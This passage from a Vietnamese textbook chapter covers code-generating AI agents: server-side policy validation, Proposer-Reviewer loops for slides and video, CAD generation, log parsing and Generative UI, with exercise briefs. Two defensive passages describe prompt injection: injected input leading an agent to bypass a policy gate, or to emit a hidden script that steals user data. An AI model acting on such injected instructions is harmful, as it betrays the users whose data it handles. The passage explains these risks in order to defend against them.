**Cấp độ thứ hai: server-side ground-truth validation đóng vai trò như một gatekeeper.** Hãy chú ý đến thiết kế cốt lõi trong code: cabin class, tình trạng insurance, booking time, segment usage và flight status đều do server query trực tiếp từ database; current time được lấy từ server clock. **Không có bất kỳ policy fact nào đến từ self-reported parameters của model.** Đây không phải là sự dư thừa vô ích: model có thể bị hallucination hoặc bị thao túng bởi prompt injection, và — như phân tích về Lethal Triad trước đó đã chỉ ra — một Agent hoạt động trong cùng một single context không thể tự validate hành vi của chính nó một cách đáng tin cậy. Nếu `cabin_class`, `has_insurance` và thậm chí cả `current_time` được thiết kế dưới dạng parameter do model tự điền, thì chỉ cần một giá trị sai lệch duy nhất — dù do ngẫu nhiên hay bị can thiệp — cũng có thể bypass qua gatekeeper. Tuyến phòng thủ cuối cùng bắt buộc phải được xây dựng trên dữ liệu mà model không thể làm giả — điều này hoàn toàn nhất quán với quan điểm trước đó: "critical operations yêu cầu independent verification": tính độc lập ở đây không chỉ là một model độc lập, mà còn là một independent data source.

Cơ chế three-tier safeguard như vậy đã hoàn chỉnh: (1) natural language rules trong system prompt hỗ trợ understanding và explanation; (2) tool descriptions cùng parameter design đóng vai trò như một checklist, hướng dẫn model verify tường minh các điều kiện trước khi call; (3) server-side code-based validation dựa trên database ground truth đóng vai trò là gatekeeper cuối cùng. Hai tầng đầu tiên giúp giảm thiểu sự xuất hiện của errors, còn tầng thứ ba đảm bảo rằng errors sẽ không biến thành những tổn thất không thể đảo ngược (irreversible losses).

> **Experiment 5-5 ★★: Small models cải thiện rule execution accuracy thông qua code-based knowledge**
>
> **Experiment objective**: Kiểm chứng việc encode các business rules phức tạp vào code giúp cải thiện đáng kể accuracy và consistency khi một small model (Qwen3-4B) thực thi các rules đó.
>
> **Technical approach**: Thiết kế một controlled experiment dựa trên kịch bản airline customer service của benchmark τ-bench. **Control group**: Sử dụng pure natural language rules, hoàn toàn phụ thuộc vào khả năng reasoning của model. **Experimental group**: Áp dụng three-tier safeguard — system prompt giữ lại natural language rules; tool description liệt kê đầy đủ policy và dùng các optional parameter `expected_*` để hướng dẫn model kiểm tra từng điều kiện một trước khi call (checklist); tool bên trong thực hiện code-based validation dựa trên simulated database ground truth (toàn bộ policy facts đều được lấy từ database, time lấy từ server clock, hoàn toàn không tin tưởng self-reported parameters của model). Evaluation metrics: task success rate, số lượng policy violations, số lượng invalid tool calls, user experience.
>
> **Expected results**: Experimental group vượt trội rõ rệt so với control group. Quan trọng hơn, model có khả năng tự động nhận diện các policy violations ngay trong lúc chuẩn bị parameters và đưa ra phương án thay thế mà không cần call tool, chứng minh giá trị thực tế của parameters như một checklist. Cuối cùng, đo lường mismatch rate giữa các giá trị `expected_*` tự khai báo (self-reported) và database ground truth để làm rõ lý do tại sao server-side validation là bắt buộc nhằm phát hiện các reasoning errors.
>

### Code-Driven Multimedia Generation

Việc tạo lập nhiều tài liệu phức tạp về bản chất chính là quá trình tổ chức và trình bày structured data. Dù đó là một presentation, một technical report hay một interactive application, cấu trúc bên dưới đều được định nghĩa bằng code — HTML mô tả structure, CSS kiểm soát style, và JavaScript hiện thực hóa interactivity. Quy trình tạo tài liệu truyền thống thường phụ thuộc vào các editor WYSIWYG dựa trên GUI, vốn không phù hợp với các Agent vì đòi hỏi khả năng visual interpretation và thao tác định vị con trỏ (pointer placement) chính xác. Thông qua code generation, các Agent vượt qua được rào cản về visual positioning và nắm quyền kiểm soát chính xác tài liệu — vị trí, style và content của từng element đều được định nghĩa rõ ràng, đồng thời có thể chỉnh sửa và tối ưu hóa theo phương thức lập trình (programmatically).

**PPT Generation Agent.**

Việc tạo PPT vốn nổi tiếng là tốn nhiều công sức. Một academic presentation điển hình thường dài tới hàng chục slide, mỗi slide đều đòi hỏi layout cẩn thận, chắt lọc key points và lựa chọn chart phù hợp. Tuy nhiên, khi tái định hình bài toán tạo PPT thành một bài toán code generation, phần lớn độ phức tạp sẽ được triệt tiêu. Các presentation framework hiện đại như Slidev áp dụng một triết lý thiết kế tinh gọn: định nghĩa content bằng Markdown và HTML. Việc tạo một slide chỉ tốn vài dòng markup ngắn gọn, trong khi framework sẽ chịu trách nhiệm xử lý rendering, layout và animation. Đối với một Agent đã làm chủ code generation, đây là môi trường lý tưởng.



Dẫu vậy, việc chỉ generate code là chưa đủ. **Một khi Agent đã viết xong code, nó hoàn toàn không biết kết quả thực tế sẽ render ra sao**: content quá dày đặc, text bị tràn (overflow), hình ảnh sai kích thước — không có vấn đề nào trong số này hiển hiện cho đến khi các slide thực sự được render. Do đó, cơ chế **Proposer-Reviewer** (minh họa trong Figure 5-5) là cần thiết để phân chia tác vụ code generation và quality review cho hai Agent độc lập:

- **Proposer Agent** chịu trách nhiệm generate code Slidev, nắm bắt cấu trúc logic của nội dung và tổ chức thành các slide có cấu trúc chặt chẽ.
- **Reviewer Agent** thực thi code để render từng trang thành hình ảnh, sử dụng một Vision LLM (multimodal large model có khả năng "nhìn" ảnh) để đánh giá các slide đã render về mặt content density, độ dễ đọc (readability), chất lượng layout và visual appeal, sau đó tạo ra các **structured improvement suggestions** — không phải những nhận xét mơ hồ kiểu "trông chưa đẹp", mà là các chỉ dẫn cụ thể, mang tính hành động (actionable) (ví dụ: "Page 3: too much content, consider splitting"; "Page 7: code block font too small, suggest increasing to 14pt"), bao gồm các field như page number, issue type và severity.

Proposer tiếp nhận feedback, phân tích, chỉnh sửa code và gửi lại version mới cho Reviewer. Vòng lặp này tiếp diễn cho đến khi presentation đạt tiêu chuẩn chất lượng (quality standard) hoặc chạm ngưỡng số vòng lặp tối đa (maximum number of iterations - ví dụ: 5 rounds). "Chất lượng đạt chuẩn" và "số vòng tối đa" chính là hai dạng stop conditions tường minh mà Loop Engineering đòi hỏi: điều kiện trước cho phép Reviewer quyết định mục tiêu đã hoàn thành; điều kiện sau đóng vai trò là một budget cap nhằm ngăn vòng lặp rơi vào trạng thái chạy vô hạn.

Vòng lặp iterative ở đây và cơ chế **pre-approval** trong Chương 4 đều tuân theo pattern Proposer-Reviewer đã được giới thiệu ở Chương 1: quá trình sinh (generation) và đánh giá (review) được tách biệt, với hai model thực hiện đánh giá độc lập. Xét theo thuật ngữ Loop Engineering, đây là các sub-agent "maker" và "verifier" riêng biệt. Hai ứng dụng này khác nhau về mục đích và workflow. Chương 4 sử dụng pattern này để approve hoặc reject một thao tác không thể đảo ngược (irreversible operation); còn ở đây, nó thúc đẩy việc cải thiện nội dung mang tính lặp (iterative content improvement) qua nhiều vòng, trong đó Reviewer có thể quan sát rendered output mà Proposer không thấy được. Các nguyên tắc thiết kế cốt lõi vẫn nhất quán (ràng buộc mục tiêu chung, sử dụng các model family khác nhau để giảm xác suất xảy ra lỗi tương tự, đưa feedback vào như một event đặc biệt bổ sung vào trajectory của Proposer). **Ưu thế cốt lõi** của việc phân chia nhiệm vụ theo cơ chế dual-agent thay vì một single-agent loop nằm ở khía cạnh **quản lý context**: Reviewer chỉ xử lý rendered image của phiên bản mới nhất mà không bị ảnh hưởng bởi các phiên bản lịch sử; Proposer chỉ tích lũy structured text feedback, giúp tiêu tốn ít token hơn và tối ưu hóa quá trình reasoning. Nếu dùng giải pháp single-agent, hệ thống sẽ phải tích lũy các rendered image qua nhiều vòng của hàng chục trang vào cùng một context window, nhanh chóng làm vượt ngưỡng context limit. Cơ chế này sẽ tiếp tục được tái sử dụng trong các thực nghiệm tiếp theo về video editing và log visualization; Chương 10 sẽ đi sâu khám phá thêm các mode phối hợp multi-agent khác ngoài paradigm Proposer-Reviewer.

> **Experiment 5-6 ★★: Tự động tạo PPT từ paper**
>
> **Experiment objective**: Tự động tạo presentation chất lượng cao từ các academic paper, kiểm chứng hiệu quả của cơ chế Proposer-Reviewer trong việc kiểm soát chất lượng (quality control) nội dung được tạo ra.
>
> **Technical approach**: Sử dụng framework Slidev. Proposer Agent đọc file PDF của paper, trích xuất cấu trúc chương mục, các luận điểm cốt lõi và figure, lập kế hoạch cấu trúc PPT, sau đó sinh mã Slidev theo từng trang. **Key step**: Reviewer Agent thực hiện render từng slide và capture screenshot, sau đó dùng Vision LLM để đánh giá kết quả nhằm phát hiện text overflow, bố cục dồn nén nội dung (content crowding), hoặc kích thước hình ảnh không phù hợp. Proposer và Reviewer sẽ lặp lại quy trình này cho đến khi presentation đạt chuẩn chất lượng.
>
> **Acceptance criteria**: Tạo ra 10-20 slide bao quát các đóng góp chính của paper. Chứa ít nhất 3 figure trích xuất từ paper khớp với phần text đi kèm. Không bị text overflow khi render, layout hợp lý. So sánh mức tiêu thụ context và chất lượng tạo nội dung giữa cơ chế single-agent self-review và mô hình phân công Proposer-Reviewer.
>

> **Experiment 5-7 ★★: Tự động tạo video giải thích paper**
>
> **Experiment objective**: Mở rộng khả năng tạo PPT, kết hợp cả kênh thị giác (visual) và thính giác (auditory) để tự động tạo video giải thích hoàn chỉnh.
>
> **Technical approach**: Dựa trên workflow tạo presentation từ Experiment 5-6, Agent sẽ sinh thêm phần conversational narration cho từng slide—định hướng và dẫn dắt người xem thay vì chỉ lặp lại text trên slide—sử dụng TTS (text-to-speech) để tổng hợp audio, sau đó kết hợp slide image và audio bằng FFmpeg để xuất ra video hoàn chỉnh.
>
> **Acceptance criteria**: Xuất ra video có thời lượng từ 5 đến 15 phút, trong đó thời gian hiển thị của mỗi slide khớp chính xác với phần narration tương ứng và nội dung narration phải đồng bộ với các visual element trên màn hình.
>
>
> 
>
>

**Video Editing Agent.**

Chỉnh sửa video thông qua giao diện Computer Use tổng quát (general-purpose) vấp phải một rào cản mang tính cốt lõi: GUI của các phần mềm video-editing cực kỳ phức tạp — dày đặc timeline, layer và các effects panel. Một Agent phải định vị và thao tác trên các thành phần này bằng chuột và bàn phím, đòi hỏi tọa độ chính xác tuyệt đối — điều mà các model hiện nay rất khó thực hiện tốt.

Việc tái cấu trúc bài toán video editing thành các API call và code generation giúp giảm đáng kể độ phức tạp. Nhiều công cụ phần mềm chuyên nghiệp (như Blender — một công cụ open-source phục vụ 3D creation và video compositing có hỗ trợ Python scripting; FFmpeg — công cụ command-line "con dao Thụy Sĩ" cho audio/video processing) cung cấp các API interface dạng lập trình, phơi bày (expose) các chức năng cốt lõi theo cách có cấu trúc và tính khả ghép (composable). Ví dụ, Blender Python API cho phép kiểm soát chính xác các thao tác như import, trim, sắp xếp, thêm transition effect, và mix audio cho các video clip, với mỗi thao tác tương ứng với một function call rõ ràng. Đối với một Agent, việc chuyển đổi các yêu cầu bằng natural language thành API call dễ dàng hơn rất nhiều so với việc hiểu một giao diện GUI và mô phỏng mouse click. Tương tự như PPT generation, video editing cũng áp dụng cơ chế Proposer-Reviewer — Proposer Agent sinh Blender script, còn Reviewer Agent tiến hành render keyframe và dùng một Vision LLM để kiểm tra hiệu ứng, sau đó cung cấp feedback để chỉnh sửa.

> **Experiment 5-8 ★★: API-based intelligent video editing**
>
> **Mục tiêu thực nghiệm (Experiment objective)**: Xác thực khả năng thực hiện video editing của Agent thông qua việc sinh mã Blender Python API, đồng thời đánh giá vai trò của cơ chế Proposer-Reviewer dựa trên vision-feedback trong quy trình xử lý multimedia content.
>
> **Thách thức cốt lõi (Core challenge)**: Hiểu các yêu cầu chỉnh sửa bằng natural language của người dùng và chuyển đổi chúng thành các chuỗi API call chính xác, xử lý đa dạng các thao tác editing (trim, merge, subtitle, mix audio track, visual effect), đồng thời đảm bảo Python script được sinh ra có thể thực thi chính xác. Sau khi Proposer Agent viết code, nó không thể trực tiếp đánh giá video thành phẩm; nó phải dựa vào Reviewer Agent để render và sử dụng Vision LLM nhằm kiểm tra keyframe.
>
> **Phương pháp kỹ thuật (Technical approach)**: Người dùng cung cấp video tư liệu (ví dụ: raw footage chứa các phân cảnh như lướt sóng, leo núi, trượt tuyết) và mô tả yêu cầu bằng natural language (ví dụ: "Extract the surfing segment"). Proposer Agent sử dụng một video analysis sub-agent với **chiến lược định vị hai bước (two-step localization strategy)**:
>
> **Bước 1, định vị thô (coarse localization)**: Gọi sub-agent với đường dẫn video, khoảng thời gian lấy mẫu khung hình (frame-sampling interval) là 10 giây, cùng câu hỏi mục tiêu. Sub-agent dùng ffmpeg để capture frame theo khoảng thời gian đó, gửi screenshot và câu hỏi tới một Vision LLM, rồi trả về khoảng thời gian của phân cảnh (ví dụ: "Surfing is between 40-110 seconds").
>
> **Bước 2, định vị tinh chỉnh (fine-grained localization)**: Gọi lại sub-agent trên phạm vi hẹp hơn và lấy mẫu một frame mỗi giây để xác định chính xác các boundary.
>
> Việc đóng gói khâu phân tích video thành một sub-agent giúp ngăn một lượng lớn screenshot chiếm dụng context của Agent chính. Sau khi định vị xong, Proposer sẽ sinh Blender API script. Reviewer Agent thực hiện preview nhanh, kiểm tra keyframe và cung cấp feedback để chỉnh sửa, lặp lại cho đến khi đạt tiêu chuẩn trước khi tiến hành full rendering.
>
> **Tiêu chí nghiệm thu (Acceptance criteria)**: Agent có thể nhận diện chính xác các phân cảnh khác nhau trong video và sinh đúng các editing script dựa trên chỉ dẫn natural language. Điểm bắt đầu và kết thúc có độ chính xác cao (sai số trong vòng 3 giây). Nếu chỉ dẫn có yêu cầu về hiệu ứng đặc biệt (slow motion, transition, subtitle), video đầu ra phải áp dụng chính xác các hiệu ứng này. Reviewer Agent có thể phát hiện các lỗi hiển nhiên (thiếu nội dung chính, chứa đoạn không liên quan) và kích hoạt quy trình sửa lỗi. File video đầu ra cuối cùng đúng format và đạt chất lượng kỳ vọng.
>

**3D và Linh kiện công nghiệp: Ranh giới giữa Code Generation và Generative Models.**

Khi giải bài toán "generate một vật thể", Agent phải đối mặt với hai hướng tiếp cận (routes): một là viết code để dựng hình chính xác (CadQuery, OpenSCAD, Blender API); hai là gọi trực tiếp một 3D generative model (các model text/image-to-3D như Hunyuan 3D, thuộc cùng họ diffusion với các model text-to-image). Rất nhiều người phải cân nhắc câu hỏi: khi nào nên sử dụng code generation, và khi nào nên dùng image/3D generative model?

**Thứ nhất, kiểm tra xem vật thể có bản mô tả cô đọng và chính xác (compact, precise description) hay không.** Các linh kiện công nghiệp hiển nhiên sở hữu đặc điểm này. Một flange (mặt bích) được định nghĩa đầy đủ chỉ bằng năm hoặc sáu parameters—outer diameter, thickness, bolt-circle diameter, hole diameter, hole count—và code là một phương thức biểu diễn **lossless** hoàn hảo cho nó. Một chậu cây cảnh, một khối đá Thái Hồ (Taihu rock), hay một khuôn mặt người thì lại khác—chúng có vô số chi tiết, và **intrinsic complexity gần như là vô hạn (unbounded)**.

**Thứ hai, kiểm tra các yêu cầu về độ chính xác (precision requirements) và khả năng kiểm chứng (verifiability).** Mọi dimension của một linh kiện đều là một hard constraint—hole diameter 5mm, tolerance ±0.05mm; sai lệch một li là thành phế phẩm (scrap). Một linh kiện được generate bằng code có thể được verify bằng chương trình (programmatically): load mesh, đo outer diameter cùng các hole positions, và đối soát từng mục với specification. Ngược lại, một linh kiện do 3D generative model tạo ra không thể kiểm tra trực tiếp đối chiếu với specification.

Hai routes này còn khác biệt ở một khía cạnh thực tế khác: **representation và editability**. Các workflow sản xuất chế tạo đòi hỏi các parametric solids dạng B-rep (boundary representation)—file STEP lưu trữ feature tree cùng các dimensional parameters và có thể trực tiếp đưa vào gia công CNC. Những gì một 3D generative model xuất ra lại là một triangle mesh: các bề mặt cong bị xấp xỉ hóa bởi vô số facets nhỏ li ti và trông sẽ lồi lõm khi phóng đại. Sự khác biệt trở nên rõ ràng nhất khi client yêu cầu "đổi các mounting holes từ M5 sang M6": với route viết code, bạn chỉ cần đổi một con số rồi rerun, toàn bộ các dimensions khác vẫn giữ nguyên tuyệt đối; với route dùng generative-model, lựa chọn duy nhất là regenerate lại toàn bộ—và việc các dimensions khác có bị trôi (drift) hay không hoàn toàn phụ thuộc vào may rủi.

Vì vậy, việc lựa chọn route nào bản thân nó đã là một quyết định mà Agent phải đưa ra: cân nhắc giữa intrinsic complexity và precision requirements của vật thể để phân bổ task cho code generation hoặc cho 3D generative model. Trong các hệ thống thực tế, hai routes này cũng có thể được kết hợp (mixed)—generate geometry dạng parametric bằng code và chuyển giao surface texture cho một generative model xử lý, tận dụng tối đa thế mạnh của cả hai.

> **Experiment 5-9 ★★: Hai Generation Routes cho cùng một linh kiện—Code vs. Generative Model**
>
> **Mục tiêu thực nghiệm (Experiment objective)**: Lấy cùng một linh kiện cơ khí có dimensional specifications để so sánh giữa route dùng code generation và route dùng 3D generative model trên các khía cạnh dimensional accuracy, editability và manufacturability, nhằm kiểm chứng decision framework "chọn route dựa trên intrinsic complexity và precision requirements".
>
> **Phương pháp kỹ thuật (Technical approach)**: Đưa ra một yêu cầu bằng natural language kèm specification rõ ràng (ví dụ: "a flange, outer diameter 80mm, thickness 10mm, 4 evenly spaced M5 mounting holes on a 60mm bolt circle"). **Route A**: Agent viết code CadQuery (hoặc OpenSCAD) để dựng linh kiện và export ra file STEP cùng STL. **Route B**: giao cùng specification đó cho một 3D generative model (như Hunyuan 3D) để nhận về một triangle mesh. **Programmatic verification**: đo đạc các key dimensions từ output của cả hai routes (outer diameter, thickness, hole positions, hole diameters) đối chiếu với specification, đồng thời kiểm tra độ phẳng (flatness) của mounting face.
>
> Sau đó, đưa ra change request "đổi các mounting holes từ M5 sang M6" và ghi nhận chi phí sửa đổi (modification cost) của từng route—với route dùng code, đổi một parameter rồi rerun; với route dùng generative-model, cách duy nhất là regenerate lại toàn bộ mà không có gì đảm bảo các dimensions khác sẽ không bị thay đổi.
>
> **Nhóm đối chứng (Control group)**: generate một chậu cây cảnh (potted plant), và ưu thế của hai routes sẽ đảo ngược hoàn toàn—với route dùng code, ngay cả khi đã thêm procedural noise, kết quả vẫn thô cứng và thiếu tự nhiên; còn với route dùng generative-model, kết quả lại tự nhiên và sống động.

### Code đóng vai trò System Adapter

Phần code ở các mục trước chủ yếu tạo ra những thành phần "human-facing" — như báo cáo, slide trình chiếu, giao diện. Code trong phần này lại hướng tới một mục tiêu hoàn toàn khác: **kết nối machine to machine**. Trong các hệ thống thực tế, các external services mà một Agent cần tương tác thường không có sẵn SDK, và interface của chúng hiếm khi được thiết kế gọn gàng — documentation có thể bị thiếu, response format không theo quy chuẩn, và các field có thể bị thay đổi (drift) qua các phiên bản. Agent không nhất thiết phải chờ đợi một adapter được dựng sẵn. Nó có thể trực tiếp đọc API documentation hoặc phân tích một vài response thực tế, sau đó tự generate adapter on-demand: khởi tạo một HTTP client, ghép nối authentication headers, parse cấu trúc response phi chuẩn, và chuyển đổi data model từ upstream thành định dạng mà downstream có thể consume được. Lúc này, code đóng vai trò như một "universal glue" để liên kết các hệ thống bất kỳ — bất cứ nơi nào có độ vênh (gap), một mảnh glue sẽ được generate on-demand để lấp đầy. Đây chính là bản chất trong định hướng "system interface" của meta-capability. Tính năng adaptive log parsing được phát triển bên dưới là minh chứng cụ thể cho năng lực này trong bối cảnh observability: khi đối mặt với các log format liên tục thay đổi, Agent cũng sẽ thích ứng tương tự bằng cách generate parsing code on-the-fly.

Thứ "universal glue" này còn có thể mở rộng sang cả **các hệ thống hoàn toàn không có API**: khi một external system chỉ cung cấp graphical interface, Agent trước tiên có thể thao tác trên giao diện thông qua Computer Use (được trình bày chi tiết ở Chapter 6), sau đó chuyển chuỗi action thành công này thành một RPA tool có thể tái sử dụng — ở những lần tiếp theo khi tác vụ tương tự xuất hiện, nó chỉ việc thực thi đoạn code đó một cách nhanh chóng, ổn định mà không cần đến visual reasoning tốn kém. Có thể nói, RPA chính là hình thái mở rộng tối đa của system adapter: một adapter dành riêng cho các hệ thống không có programmatic interface. Chapter 9 sẽ đi sâu vào quy trình ghi nhận workflow và chuyển hóa chúng thành reusable code.

Data processing là một trong những tác vụ phổ biến nhất — và cũng tẻ nhạt nhất — trong các software systems. Nguyên nhân cốt lõi là do data format quá đa dạng và không bao giờ đứng yên. Một hệ thống đơn lẻ có thể thay đổi format nhiều lần trong vòng đời phát triển — bổ sung field mới, tái cấu trúc nesting, hoặc thay đổi type. Việc viết tay parser cho từng format kéo theo chi phí bảo trì (maintenance cost) rất lớn: mỗi lần thay đổi đồng nghĩa với việc phải cập nhật parsing logic, test tính tương thích, và release một version mới.

Code generation mang lại một cách tiếp cận hoàn toàn khác biệt: khi Agent đối mặt với một format mới, nó sẽ generate parsing code on-the-fly trực tiếp từ sample data, giúp hệ thống tự động thích ứng với sự thay đổi của format mà không cần bất kỳ sự can thiệp thủ công nào từ con người.

**Agent Log Parsing và Visualization.**

Khả năng observability của các Agent systems phụ thuộc trực tiếp vào việc visualization các execution flows. Một tác vụ Agent phức tạp có thể bao gồm hàng trăm steps, gồm nhiều LLM calls, hàng chục lượt tool execution, và các phiên tương tác qua lại giữa nhiều sub-agents. Việc visualize nguồn dữ liệu này đối mặt với nhiều thách thức: mỗi tool trả về dữ liệu theo cấu trúc khác nhau, các format liên tục biến đổi theo từng iteration của hệ thống; một trajectory hoàn chỉnh có thể chứa hàng trăm nghìn ký tự, đòi hỏi phải cân bằng giữa góc nhìn tổng quan (overview) và dữ liệu chi tiết (detail).

Code generation cung cấp một giải pháp thanh lịch: thiết lập một auto-repair feedback loop. Khi frontend gặp phải một log format không thể parse được, thay vì báo lỗi, nó sẽ tự động gửi thông tin thất bại (raw log sample, detailed error) về cho Agent. Agent tiến hành phân tích cấu trúc sample data và generate đoạn code frontend có khả năng parse chính xác dữ liệu đó. Đoạn code này trước hết được test tự động trong một virtual browser để verify tính đúng đắn của logic parse, đồng thời một Vision LLM sẽ đánh giá chất lượng visualization. Nếu vượt qua cả hai bước kiểm tra, đoạn code sẽ được deploy trực tiếp lên frontend dưới dạng hot update.

> **Experiment 5-10 ★★★: Adaptive Log Parsing System**
>
> **Experiment Goal**: Xây dựng một Agent log visualization system có khả năng tự tiến hóa (self-evolving).
>
> **Technical Approach**: System ban đầu chỉ hỗ trợ các format cơ bản. Frontend phát hiện parsing failure → Report về cho Agent → Generate parsing code → Test trên virtual browser → Hot update deployment. Toàn bộ process được automated hoàn toàn.
>
> **Acceptance Criteria**: Tự động phát hiện failure và trigger quá trình learning, generate code pass các automated test, parse chính xác các format mới sau khi hot update.
>

**Tự động phân tích và chẩn đoán sự cố từ Agent Execution Logs.**

Các Agent trên môi trường production tạo ra một khối lượng khổng lồ trajectory logs (ghi lại toàn bộ process thực thi của từng task). Tuy nhiên, việc phát hiện problem, xác định root cause và xây dựng test case từ các log này là một bài toán tiêu tốn rất nhiều chi phí. Failure có thể phát sinh từ sự tương tác giữa nhiều module với nhau, khiến việc cô lập root cause trở nên phức tạp. Chúng cũng rất tốn kém để reproduce do test environment hiếm khi phản ánh được đầy đủ độ phức tạp của môi trường production. Cuối cùng, bug rất dễ tái diễn khi các bản fix không được bao phủ bởi các regression test có tính hệ thống.

Code generation mang lại một giải pháp automated cho khâu chẩn đoán. Agent có thể đọc production logs, kết hợp cùng architecture documents và PRD (Product Requirement Documents) để tự động đánh giá xem execution flow có đáp ứng đúng kỳ vọng hay không, đồng thời khoanh vùng chính xác các component và module gặp sự cố. Dựa trên kết quả phân tích, Agent sẽ generate các problem report có cấu trúc (priority, module, description, improvement suggestions) cùng các regression test case—các test case này tham chiếu trực tiếp đến trajectory ID xảy ra problem và các interaction round then chốt, sau đó test framework sẽ tự động replay chúng nhằm verify xem system sau khi fix có phản hồi chính xác với cùng một input hay không. Cuối cùng, Agent kết nối với GitHub thông qua MCP để tạo Issue và assign cho developer phụ trách, hoàn tất chu trình full automation từ khâu phát hiện problem đến task assignment.

> **Experiment 5-11 ★★★: Intelligent Diagnostic System for Production Logs**
>
> **Experiment Goal**: Tự động phát hiện problem từ các production trajectory, generate test case và tạo work item.
>
> **Technical Approach**: Agent phân tích một tập hợp các production trajectory song song với system architecture documents và PRD nhằm nhận diện các problem pattern cùng những module liên quan. Sau đó, Agent generate các problem report có cấu trúc gồm priority, module, description và các đề xuất cải tiến. Agent cũng generate các regression test gắn liền với trajectory ID và các interaction round; test framework sẽ replay các case này và verify kết quả. Cuối cùng, Agent tạo GitHub Issue thông qua MCP.
>
>
> 
>
>

### Code as Generative UI

Các hệ thống Agent truyền thống chủ yếu tương tác với người dùng thông qua đối thoại bằng plain-text. Tuy nhiên, văn bản là một phương tiện tuyến tính, một chiều, và trong rất nhiều kịch bản thực tế lại tỏ ra kém hiệu quả. Việc thu thập thông tin có cấu trúc đòi hỏi quá trình trao đổi qua lại kéo dài; các mối quan hệ dữ liệu phức tạp rất khó diễn đạt trọn vẹn bằng plain-text; và khi người dùng cần lựa chọn giữa các phương án, một danh sách văn bản trực quan kém xa so với một visual interface.

Code generation mở ra giải pháp vượt qua các rào cản này: Agent có thể dynamically generate các form, interactive chart, thậm chí cả một web application hoàn chỉnh, chuyển đổi đối thoại văn bản tĩnh thành trải nghiệm tương tác multimodal phong phú. Pattern này, nơi Agent dynamically generate giao diện, được gọi là **Generative UI**.

**A2UI-like Protocols: Chuẩn hóa Generative UI.**

Việc cho phép Agent generate mã HTML và JavaScript để client trực tiếp render và execute tiềm ẩn một rủi ro bảo mật cốt lõi: code được sinh ra có thể chứa mã độc. Ví dụ, nếu ai đó cố tình cài cắm chỉ thị ẩn vào input, Agent có thể bị thao túng qua prompt injection, từ đó vô tình generate ra một đoạn script lén lút đánh cắp dữ liệu người dùng. Ở đây, chuỗi quan hệ nhân quả (causal chain) rất quan trọng: **prompt injection**—các chỉ thị độc hại bị trộn lẫn vào input của Agent—là nguyên nhân (cause), trong khi việc browser execute đoạn script độc hại phát sinh và đánh cắp dữ liệu lại có nét tương đồng với Web XSS (Cross-Site Scripting) truyền thống; toàn bộ cuộc tấn công này không thể chỉ đơn thuần quy chụp là XSS. 

Các declarative interface protocol như A2UI (Agent-to-User Interface) đem lại hướng tiếp cận an toàn hơn. Thay vì generate trực tiếp executable code, Agent chỉ output một bản mô tả dạng JSON gọi là "UI description manifest", chẳng hạn: "Display a table with three rows and two columns titled 'Sales Data'". Phía client sau đó sẽ tự render giao diện bằng các predefined component an toàn của riêng nó. Cơ chế này tương tự như một menu nhà hàng: khách hàng (Agent) chỉ có thể gọi các món có sẵn trên menu (predefined components), chứ không thể bước vào bếp để tự ý nấu các món tùy tiện (execute arbitrary code). 

